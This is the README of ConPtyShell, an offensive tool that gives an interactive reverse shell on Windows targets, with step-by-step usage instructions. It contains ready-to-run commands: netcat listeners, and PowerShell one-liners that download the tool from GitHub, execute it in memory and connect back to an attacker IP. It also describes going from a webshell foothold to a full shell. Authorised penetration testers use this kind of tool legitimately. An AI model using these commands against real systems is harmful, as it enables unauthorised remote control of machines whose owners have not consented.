# ConPtyShell
ConPtyShell is a Fully Interactive Reverse Shell for Windows systems.

The introduction of the Pseudo Console (ConPty) in Windows has improved so much the way Windows handles terminals.
ConPtyShell uses this feature to literally transform your bash in a remote powershell.

<p>Briefly, it creates a Pseudo Console and attaches 2 pipes.<br>
Then it creates the shell process (default powershell.exe) attaching the Pseudo Console with redirected input/output.<br>
Then starts 2 Threads for Async I/O:<br>
- one thread for reading from the socket and writing to Pseudo Console input pipe;<br>
- the second thread for reading from the Pseudo Console output pipe and writing to the socket.</p>

ConPtyShell has also the magic button "Upgrade to fully interactive" for your reverse shell, just use it as your needs :)

If you want to know further information regarding ConPty you can find a great article [1] in the references section.

**NOTE: ConPtyShell uses the function <a href="https://docs.microsoft.com/en-us/windows/console/createpseudoconsole">CreatePseudoConsole()</a>. This function is available since Windows 10 / Windows Server 2019 version 1809 (build 10.0.17763).**

**NOTE2: If the ConPTY is not available on the target system you will get a normal netcat-like interactive shell.**

## Requirements
<p>Client Side: Windows version >= 10 / 2019 1809 (build >= 10.0.17763)</p>
<p>Server Side: any tcp listener, i.e. netcat</p>

## Usage

It's important to have the same rows and cols size between your terminal and the remote terminal if you want to have an aligned output on the shell.

#### Method 1
In this method the terminal size is set without you pass the rows and cols parameters to Invoke-ConPtyShell function:

##### Server Side:
```
stty raw -echo; (stty size; cat) | nc -lvnp 3001
```

##### Client Side:

```
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.0.0.2 3001
```

or, if you upload the ps1:

```
IEX(Get-Content .\Invoke-ConPtyShell.ps1 -Raw); Invoke-ConPtyShell 10.0.0.2 3001
```

#### Method 2
If you prefer to have more freedom on the tcp listener and your terminal you can proceed with a "Manual" way to get the reverse shell. In this case it's important that you set rows and cols size when calling the Invoke-ConPtyShell function:

##### Server Side:
```
stty size
nc -lvnp 3001
Wait For connection
ctrl+z
stty raw -echo; fg[ENTER]
```
##### Client Side:
Here you should use the values read from ```stty size``` command in the Parameters -Rows and -Cols
```
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell -RemoteIp 10.0.0.2 -RemotePort 3001 -Rows 24 -Cols 80
```

or, if you upload the ps1:

```
IEX(Get-Content .\Invoke-ConPtyShell.ps1 -Raw); Invoke-ConPtyShell -RemoteIp 10.0.0.2 -RemotePort 3001 -Rows 24 -Cols 80
```

#### Method 3 - Upgrade
You can also upgrade your current shell to a fully interecative shell. In this case it's important that you set rows and cols size when calling the Invoke-ConPtyShell function:

**WARN1: Do not use Invoke-WebRequest if you load the assembly directly in powershell because ConPtyShell won't work properly when multiple sockets (and multiple \Device\Afd) are found in the current process**

**WARN2: Only sockets created with the flag WSA_FLAG_OVERLAPPED are compatible with the upgrade. Non overlapped sockets won't give a nice upgraded shell and it will have locks on I/O operations.**

##### Server Side:
```
stty size
nc -lvnp 3001
Wait For connection
ctrl+z
stty raw -echo; fg[ENTER]
```
##### Client Side:
Here you should use the values read from ```stty size``` command in the Parameters -Rows and -Cols

```
IEX(Get-Content .\Invoke-ConPtyShell.ps1 -Raw); Invoke-ConPtyShell -Upgrade -Rows 24 -Cols 80
```


#### Change Console Size

In any case if you resize your terminal while you have already open the remote shell you can change the rows and cols size directly from powershell pasting the following code:

```
$width=80
$height=24
$Host.UI.RawUI.BufferSize = New-Object Management.Automation.Host.Size ($width, $height)
$Host.UI.RawUI.WindowSize = New-Object -TypeName System.Management.Automation.Host.Size -ArgumentList ($width, $height)
```

## Demo
Below in the video you can watch a simulated scenario where on the left terminal i have a limited access to the server through a webshell and on the right i spawn a fully interactive reverse shell playing around:

<img src="https://drive.google.com/uc?id=1xPfNYjhTI5LpovDIustGxkzjNNg2Hc6l">

### Upgrade demo

<img src="https://drive.google.com/uc?id=1PRuy_qgezsG0rQ7kjSYl6hxlJMLobTh8">

## References

1. https://devblogs.microsoft.com/commandline/windows-command-line-introducing-the-windows-pseudo-console-conpty/
2. https://github.com/microsoft/terminal
3. https://www.usenix.org/conference/usenixsecurity20/presentation/niakanlahiji
4. https://adepts.of0x.cc/shadowmove-hijack-socket/

## Credits

- LupMan

